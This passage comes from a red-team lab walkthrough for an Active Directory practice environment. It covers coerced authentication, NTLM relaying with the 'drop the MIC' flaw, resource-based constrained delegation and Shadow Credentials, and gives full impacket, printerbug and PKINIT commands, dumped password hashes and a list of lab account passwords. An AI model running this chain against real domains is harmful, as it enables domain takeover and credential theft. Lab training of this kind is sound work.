

We can simply now open `domain_users.html` for with any browser and we can see some GUI of the users inside **`essos.local`** domain.



## **Coerced Authentication and "Drop The Mic" Relaying (CVE-2019-1040)**

We have explored methods that rely on waiting for broadcast traffic or actively poisoning DNS, but now we advance to the most aggressive form of interception… **Coerced Authentication**. 
In a mature Red Team engagement, we do not simply hope a server restarts or a user creates traffic, we force the target infrastructure to authenticate to us on demand. We combine this active trigger with a critical protocol exploit known as **Drop The Mic (CVE-2019-1040)** to bypass the integrity checks that normally prevent us from relaying NTLM credentials to sensitive services like LDAPS.

The operational philosophy here shifts from "Man-in-the-Middle" to "Provocateur". Active Directory environments are filled with Remote Procedure Call (RPC) interfaces that management tools use to query status or update configurations. Interfaces such as the Print Spooler (MS-RPRN) or the Encrypting File System Remote Protocol (MS-EFSRPC / PetitPotam) allow an authenticated low-level user to request a "callback." By utilizing our current valid credential (e.g., **brandon.stark** or **eddard.stark**), we can send a request to a high-value server (like **Castelblack**) demanding it authenticate back to our listener. Since computer accounts (`MACHINE$`) automatically authenticate with their own credentials when connecting to network resources, we essentially force the server to hand us its high-privileged identity token.

However, capturing this machine credential presents a challenge due to **NTLM security mechanisms**. When a modern Windows machine authenticates, it calculates a **Message Integrity Code (MIC)** to protect the integrity of the NTLM handshake. This MIC ensures that no one has tampered with the negotiation flags in transit. Normally, this prevents us from relaying the authentication because if we strip the "Signing Required" flags to make the relay work, the MIC becomes invalid, and the target Domain Controller rejects the connection. This is where **CVE-2019-1040** comes into play. Researchers discovered a flaw in how Windows validated this integrity code. 
If an attacker simply deletes the MIC field entirely from the NTLM packet (hence "Drop the Mic"), the server would incorrectly proceed without validating it. This exploit allows us to modify the NTLM flags to disable signing requirements and relay the session successfully to the **LDAPS** service on the Domain Controller.

Our tactical objective with this relay is to configure **Resource-Based Constrained Delegation (RBCD)**. Since the victim (Castelblack$) owns its own object in Active Directory, we relay its session to the DC and use its own authority to modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on itself. We populate this attribute with a computer account we control (like the `starkcomputer` we created earlier). Once this attribute is set, the domain infrastructure trusts our fake computer to impersonate *any* user (including Domain Admins) when accessing Castelblack. This essentially grants us complete administrative control over the target server without ever knowing a local admin password or cracking a hash.

To execute this, we utilize a coordinated strike between two tools: 
**Coercer:** to trigger the authentication callback.
**impacket-ntlmrelayx:** configured with the `--remove-mic` flag to bypass the integrity check.

We must first establish our listener on the network. We configure `ntlmrelayx` to listen on the standard SMB port 445 . Our target is the **LDAPS** interface of the ESSOS Domain Controller (**Meereen**). We use LDAPS (port 636) instead of standard LDAP because modifying delegation attributes typically requires an encrypted channel. The critical argument here is `--remove-mic`, which activates the CVE-2019-1040 exploit logic to strip the protection flags in flight. We also instruct the tool to utilize our "Trojan Horse" computer account (`mrstark3$`) to set up the delegation backdoor on whatever machine we manage to coerce.

`[ntlmrelayx.py](http://ntlmrelayx.py/)`` -t ldaps://meereen.essos.local -smb2support --remove-mic --add-computer 'mrstark3$' --delegate-access --escalate-user 'mrstark3$'`

### Phase 2: Execution of Coercion (Coercer)

In a separate terminal, we use our authenticated user session to poke the target. We utilize the python tool **Coercer** (a powerful successor to individual scripts like `printerbug.py` or `petitpotam.py`) which attempts multiple known RPC coercion methods automatically. We target **Castelblack**, instructing it to connect back to our Kali IP address (the listener).

`python3 ``[printerbug.py](http://printerbug.py/)`` 'essos.local/khal.drago:horse'@'braavos.essos.local' 10.4.10.179`



When the [printerbug.py](http://printerbug.py/) command executes, Braavos processes the RPC request and immediately initiates an outgoing SMB connection to our Kali box. ntlmrelayx intercepts this incoming ESSOS/BRAAVOS$ machine account authentication. Utilizing the "Drop the Mic" vulnerability, the tool modifies the NTLM negotiation flags in transit to bypass signing requirements and successfully relays the session to the Essos Domain Controller (Meereen) via LDAPS.

The Domain Controller accepts the modification request because, due to our relay, it believes the request is originating directly from Braavos itself. Upon success, as confirmed in the logs, ntlmrelayx performs two critical actions: it registers the new computer account mrstark3$ and modifies the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of BRAAVOS$ to explicitly trust this new account.

This completes the architectural compromise. We have not just stolen a credential, we have re-architected the trust logic of the Essos domain to grant us permanent administrative rights on the target server. We can now perform the final extraction by using the [getST.py](http://getst.py/) (Get Service Ticket) tool to forge a ticket as Administrator for Braavos, essentially walking through the front door we just unlocked.

Now that the attack has succeeded, we can exploit the **`Braavos`** server with RBCD. Having successfully added a computer to the domain, we can now leverage this to request the Administrator Service Ticket.

`[getST.py](http://getst.py/)`` -spn HOST/BRAAVOS.ESSOS.LOCAL -impersonate Administrator -dc-ip 10.4.10.12 'ESSOS.LOCAL/mrstark3$:IZq5,#*}D4)HDq-'`



**`NOTE:`** If you get the error: **`Kerberos SessionError: KRB_AP_ERR_SKEW`** while trying to execute the [getST.py](http://getst.py/) as you can see the screenshot below. We can easily fix it by executing the script that follow along.



```powershell
#!/bin/bash
# High-Level Interactive Kerberos Time Synchronization Script
sudo systemctl stop systemd-timesyncd

# We accept the target DC via the first positional argument
TARGET=$1

# If no argument is provided, we prompt the user to input the target address
if [ -z "$TARGET" ]; then
    echo "Please enter the target Domain Controller IP or FQDN: "
    read -r TARGET
fi

echo "We are reaching out to $TARGET via the SMB Remote Time Protocol..."

# We initiate the unauthenticated request to the DC's internal clock
# We then strip the "Current time is " text and any trailing newline artifacts
RAW_TIME=$(net time -S "$TARGET" | sed 's/Current time is //')

# We verify that we actually captured a time string before proceeding
if [[ -z "$RAW_TIME" ]]; then
    echo "Failure: We could not retrieve the time. Port 445 may be filtered."
    exit 1
fi

echo "The Domain Controller identifies the time as: $RAW_TIME"

# We apply the time shift to the Linux kernel system clock
# We use sudo because time modification is a privileged operation
sudo date -s "$RAW_TIME"

# We finalize by ensuring the hardware clock (BIOS) matches the system clock
# This prevents the operating system from rolling back the sync
sudo hwclock --systohc

echo "Verification: Local time is now $(date)"
echo "The KRB_AP_ERR_SKEW barrier is successfully removed for $TARGET."
```

In this final step, we capitalize on the Resource-Based Constrained Delegation (RBCD) misconfiguration we just created to forge a high-privileged service ticket. By using the `getST.py` script with the credentials of our rogue machine account (`mrstark3$`), we perform an S4U2Proxy (Service for User to Proxy) request against the Domain Controller (`10.4.10.12 - Meereen`).

This command explicitly requests a Service Ticket for the **CIFS** service on **BRAAVOS**, claiming that we are impersonating the **Administrator**. Because we modified Braavos to trust `mrstark3$` earlier, the Domain Controller accepts this delegation and issues a valid TGS for the Administrator user. The resulting `.ccache` file is the digital "Golden Ticket" to Braavos, loading it into our environment allows us to access the server with full administrative rights, completely bypassing the need for a password. This effectively completes the privilege escalation chain.

## Getting Administrator Service Ticket 

With the retrieval of the **Administrator** service ticket in the form of a `.ccache` file, we have effectively completed the execution phase of the coercion attack chain. Our immediate next move is to operationalize this ticket by exporting the `KRB5CCNAME` environment variable, which tells our attack tools to utilize this specific credential cache for authentication. Once loaded, we can target the **Braavos** server directly using tools like `secretsdump.py` or `psexec.py`, forcing the remote system to acknowledge us as the local administrator without ever having provided a password or hash. This step validates that our manipulation of the delegation attributes successfully translated into tangible system access.

`export KRB5CCNAME=Administrator.ccache
``[secretsdump.py](http://secretsdump.py/)`` -k -no-pass 'ESSOS.LOCAL/administrator@braavos.essos.local'`



```bash
Impacket v0.14.0.dev0+20260114.195536.1a876e02 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xdd5337f5253eb92d53e03c8b06b95a02
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:935647be814c001e597b80acd2bb2340:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:8fc87b487191679ac1734ac3d3ef7902:::
localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
[*] Dumping cached domain logon information (domain/username:hash)
ESSOS.LOCAL/Administrator:$DCC2$10240#Administrator#b82da114942a5816d57e55413f383db1: (2026-01-03 16:30:58+00:00)
ESSOS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a: (2026-01-03 16:27:55+00:00)
ESSOS.LOCAL/khal.drogo:$DCC2$10240#khal.drogo#f6e0610d7070ac77c69f566696f4e1d5: (2026-01-19 22:06:57+00:00)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
```

This marks the conclusion of this phase, a phase defined by our ability to weaponize the inherent trust and chatter of the network infrastructure. Throughout this module, we transitioned from passive listeners to active traffic managers, utilizing LLMNR poisoning to compromise user credentials and IPv6 spoofing to intercept high-value domain authentication flows. By chaining these poisoning primitives with NTLM relaying, we successfully compromised member servers like Castelblack and leveraged architectural flaws like CVE-2019-1040 to circumvent signing protections on the Domain Controller. We have demonstrated that in an Active Directory environment, control over the network stream often equates to control over the identity layer, proving that we do not always need to crack passwords to attain administrative dominance over the forest.

## **Shadow Credentials (msDS-KeyCredentialLink)**

We now advance to a stealthier and more modern persistence technique known as **Shadow Credentials**. While our previous Resource-Based Constrained Delegation (RBCD) attack relied on creating a new computer account and modifying the delegation attributes of the victim, this attack targets a specific attribute introduced to support "Windows Hello for Business" called **`msDS-KeyCredentialLink`**.

This attribute allows a user or computer to authenticate using a **Public Key Infrastructure (PKI)** material (like a certificate or raw key) instead of a password. By relaying a coerced NTLM authentication to the Domain Controller via **LDAPS**, we can inject our own "Key Credential" into the victim's object.

From an attacker's perspective, this effectively allows us to "issue a Smart Card" for the victim account without their knowledge. Once we have injected the key, we possess the corresponding private key on our attack machine. We can then utilize the **PKINIT** mechanism of Kerberos to request a full **Ticket Granting Ticket (TGT)** for the victim. This grants us the ability to impersonate the machine account (e.g., `CASTELBLACK$`) completely, enabling us to forge Silver Tickets or decrypt traffic, all without ever cracking a password or creating a new noisy computer account in the domain.

This attack is particularly valuable because:

1. **Bypass Quotas:** It does not require `MachineAccountQuota` (we aren't adding a machine).
1. **Bypass Password Changes:** It works even if the target changes their password or is managed by LAPS (we use a certificate/key, not a password).
1. **Persistence:** The key remains on the object until manually removed, acting as a quiet backdoor.
### Prerequisites (Tooling)

This attack relies on **PKINIT** (Public Key Cryptography for Initial Authentication). To perform the final step (getting the TGT), you will likely need **`gettgtpkinit.py`** from the **PKINITtools** suite (by dirkjanm), as this functionality sits outside standard Impacket.

`git clone https://github.com/dirkjanm/PKINITtools.git`
`cd PKINITtools
pip3 install .
`

### Step 1: Configure the Listener

We initiate this operation by configuring our relay infrastructure to exploit the `msDS-KeyCredentialLink` attribute. Unlike our previous attacks that relied on extracting secrets, this technique relies on injection. We establish our ntlmrelayx listener targeting the LDAPS interface of the Meereen Domain Controller. We utilize LDAPS (port 636) specifically because Active Directory requires an encrypted channel to modify sensitive attributes like delegation or key credentials. The listener is armed with the `--shadow-credentials` flag, which instructs the tool to automatically generate a public-private key pair and attempt to write the public portion into the victim object's attributes upon a successful relay.
`ntlmrelayx.py -t ldaps://meereen.essos.local -smb2support --remove-mic --shadow-credentials`



### Step 2: Trigger the Authentication

To drive traffic into this trap, we utilize [printerbug.py](http://printerbug.py/) as a surgical trigger against the Braavos server. This script leverages the MS-RPRN Print Spooler interface to coerce the machine into authenticating back to our attack IP. Once the RPC command is sent, Braavos initiates a standard SMB connection to us. Our relay intercepts this authentication stream, authenticates to the Domain Controller as BRAAVOS$, and utilizes the "Write Property" permission (which we manually enabled for the SELF principal in the previous lab setup) to append a new Key Credential to its own object. The successful execution results in the relay server generating and saving a PFX certificate file locally on our attack machine, effectively handing us a digital smartcard for the victim server.
`python3 printerbug.py 'essos.local/khal.drago:horse'@'braavos.essos.local' 10.4.10.179`





### Step 3: The Result & Usage

With the forged PFX certificate securely in our possession, we transition from the exploitation phase to the authentication phase. This step is critical because we are moving from a proprietary attack mechanism to a legitimate feature of the Kerberos protocol known as Public Key Cryptography for Initial Authentication (PKINIT). We leverage the [gettgtpkinit.py](http://gettgtpkinit.py/) utility to interface with the Key Distribution Center (KDC) on Meereen. This tool performs a standard Kerberos AS-REQ, but instead of encrypting the timestamp with a password hash (which we do not have), it signs the request using the private key inside our looted PFX file.

The Domain Controller validates the signature against the public key we injected into the msDS-KeyCredentialLink attribute of the BRAAVOS$ object. Finding a match, the KDC issues a Ticket Granting Ticket (TGT) valid for the machine account. The tool saves this ticket as a Credential Cache (ccache) file. This artifact is the operational equivalent of knowing the computer account's 120-character random password; it allows us to interact with any service in the forest that trusts this specific computer identity.

`python3 PKINITtools/gettgtpkinit.py -cert-pfx QLLw3a2R.pfx -pfx-pass xMzZAZ1diw77ppAqx4nZ essos.local/BRAAVOS$ QLLw3a2R.ccache`



To operationalize the ticket we just acquired, we must first integrate it into our local environment. Linux-based Kerberos tools utilize the KRB5CCNAME environment variable to locate valid tickets. By exporting the path to our newly generated ccache file into this variable, we instruct all subsequent tools in our shell to use this specific ticket for authentication rather than attempting a username/password login. This essentially "injects" the identity into our current terminal session.

We verify our access by targeting the victim host itself using NetExec. We invoke the tool with the -k (Use Kerberos) and --use-kcache (Use the environment ticket) flags against the Fully Qualified Domain Name of Braavos. The successful output shows us authenticating as ESSOS.LOCAL\BRAAVOS$. 

`export KRB5CCNAME=QLLw3a2R.ccache`

`poetry run netexec smb braavos.essos.local -k --use-kcache`



This confirms that we have achieved total compromise of the host by becoming the host itself. From this position, we have the privileges of the Local System account, allowing us to perform tasks such as dumping local secrets, scheduling administrative jobs, or leveraging the machine's trusted identity to attack other resources within the domain.

By starting with legacy **LLMNR/NBT-NS poisoning**, we demonstrated how the default chatty nature of Windows protocols exposes credentials on the wire. We then elevated that access using **SMB Relaying**, turning a standard broadcast into a lethal pivot that granted us administrative control over **Castelblack** without ever cracking a password. This validated the immense danger of the "SMB Signing Disabled" configuration on member servers.

We then shifted our sights to the Domain Controllers and cross-forest infrastructure. Through **IPv6 Takeover (mitm6)** and **Coerced Authentication (PrinterBug)**, we proved that we can force high-value targets like **Braavos** to authenticate to us. Utilizing **ntlmrelayx** against the LDAPS interface, we executed sophisticated persistence attacks, specifically **Resource-Based Constrained Delegation (RBCD)** and **Shadow Credentials**. 
These techniques allowed us to modify the Active Directory structure itself, creating backdoors that granted us "System-Level" access in the form of Service Tickets and TGTs for machine accounts.

From a defensive perspective, this phase highlighted that identity in an Active Directory environment is not just about username and password strength; it is about **Integrity of Communication**. If authentication traffic can be intercepted and redirected, strong passwords are irrelevant. The only true mitigations for what we just performed are enforcing SMB/LDAP signing universally, disabling legacy protocols like LLMNR/NBT-NS, and rigorously restricting RPC interfaces like the Print Spooler.

Domain: north.sevenkingdoms.local (`User Description`)
User: samwell
Pass: Heartsbane

Domain: north.sevenkingdoms.local  (`ASREP-Roasting`)
User: brandon.stark
Pass: iseedeadpeople

Domain: north.sevenkingdoms.local (`Password Spray`)
User: hodor
Pass: hodor

Domain: north.sevenkingdoms.local (`Kerberoasting`)
User: jon.snow
Pass: iknownothing

Domain: north.sevenkingdoms.local (**`Coerced auth smb + ntlmrelayx to ldaps with drop the mic`**)

User: sql_svc

Pass: YouWillNotKerboroast1ngMeeeeee


---

*Back to [GOAD Overview](../README.md)*
